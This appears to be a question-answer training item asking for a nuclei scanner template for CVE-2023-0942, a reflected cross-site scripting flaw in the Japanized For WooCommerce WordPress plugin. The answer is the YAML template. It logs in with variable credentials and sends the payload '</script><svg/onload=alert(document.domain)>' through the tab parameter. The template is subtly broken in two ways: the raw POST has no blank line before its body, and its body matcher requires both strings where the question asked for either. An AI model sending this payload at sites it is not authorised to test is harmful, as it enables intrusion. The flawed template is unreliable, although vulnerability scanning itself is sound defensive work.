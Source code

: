 QUESTION: Please read the following HTTP request according to the operation documentation of the nuclei tool:

```HTTP
POST /wp-login.php HTTP/1.1
Host: 192.168.1.102
Content-Type: application/x-www-form-urlencoded

log=admin&pwd=123456&wp-submit=Log+In

GET /wp-admin/admin.php?page=wc4jp-options&tab=a</script><svg/onload=alert(document.domain)> HTTP/1.1
Host: 192.168.1.102
```

    The HTTP response is as follows:
```HTTP
HTTP/1.1 200 OK
Date: Thu, 13 Apr 2023 02:07:49 GMT
Connection: close
Content-Length: 124
    
<html>
    <header>test</header>
    <body>
        <svg/onload=alert(document.domain)>
    </body>
</html>
```

    The HTTP response need HTTP status 200 OK,and Response body contains string "<svg/onload=alert(document.domain)>" or "woocommerce-for-japan".
    
    The above request response is the xss(Cross Site Scripting) vulnerability of the Japanized For WooCommerce system that is less than version 2.5.5. The author of the discovery is r3Y3r53, and the cve number is CVE-2023-0942. matchers need choose dsl type,condition parameter is 'and'. Don't generate too many explanations for me, I only need the complete yaml code.CWE id is CWE-79. Severity level is medium. Need to verify metadata.Also need to convert the username parameter and password parameter into variables.
=========
ANSWER: 

```yaml
id: CVE-2023-0942-poc

info:
  name: Japanized For WooCommerce < 2.5.5 - Cross Site Scripting
  author: r3Y3r53
  severity: medium
  description: |
    Japanized For WooCommerce < 2.5.5 is vulnerable to Reflected Cross-Site Scripting via the tab parameter in versions up to, and including, 2.5.4 due to insufficient input sanitization and output escaping.
  reference:
    - https://wpscan.com/vulnerability/71aa9460-6dea-49cc-946c-d7d4bf723511
    - https://nvd.nist.gov/vuln/detail/CVE-2023-0942
    - https://wordpress.org/plugins/woocommerce-for-japan/
    - https://plugins.trac.wordpress.org/browser/woocommerce-for-japan/trunk/includes/admin/views/html-admin-setting-screen.php#L63
  remediation: Fixed in version 2.5.5
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
    cvss-score: 6.1
    cve-id: CVE-2023-0942
    cwe-id: CWE-79
  metadata:
    verified: "true"
  tags: cve2023,woocommerce-for-japan,wp,wpscan,wordpress,authenticated,cve,xss,woocommerce,plugin

requests:
  - raw:
      - |
        POST /wp-login.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        log={{username}}&pwd={{password}}&wp-submit=Log+In
      - |
        GET /wp-admin/admin.php?page=wc4jp-options&tab=a</script><svg/onload=alert(document.domain)> HTTP/1.1
        Host: {{Hostname}}
    cookie-reuse: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code_2 == 200'
          - 'contains(body_2, "<svg/onload=alert(document.domain)>") && contains(body_2, "woocommerce-for-japan")'
        condition: and
```